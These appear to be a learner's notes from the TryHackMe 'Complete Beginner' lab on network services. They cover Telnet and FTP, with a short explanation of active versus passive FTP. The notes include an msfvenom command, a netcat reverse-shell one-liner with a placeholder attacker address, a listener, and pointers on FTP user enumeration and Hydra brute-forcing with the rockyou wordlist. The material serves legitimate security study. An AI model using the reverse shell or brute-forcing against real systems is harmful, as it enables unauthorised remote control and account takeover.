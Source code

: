 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-10-02

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP \
	lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; \
	nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
	rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren't literal - they're *actually* the local IP address of my machine on TryHackMe's VPN and my chosen port. Neither of which should be particularly sensitive, but I'm still not going to post it on the internet!)

What's going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat's STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The active vs. passive FTP distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.

Passive FTP: The server opens a port which the client connects to when establishing the data channel.

* [File Transfer Protocol (Wikipedia)](https://en.wikipedia.org/wiki/File_Transfer_Protocol)

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. Some (older) FTP daemons have a vulnerability where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap's -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

* [Solaris 2.6/7.0 - IN.FTPD CWD 'Username' Enumeration](https://www.exploit-db.com/exploits/20745)

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali's rockyou.txt.gz is apparently a list of 14 million passwords dumped during the hack of some service called RockYou that I hadn't previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

* [rockyou.txt wordlist](https://github.com/zacheller/rockyou)
* [RockYou Hack: From Bad To Worse](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/)
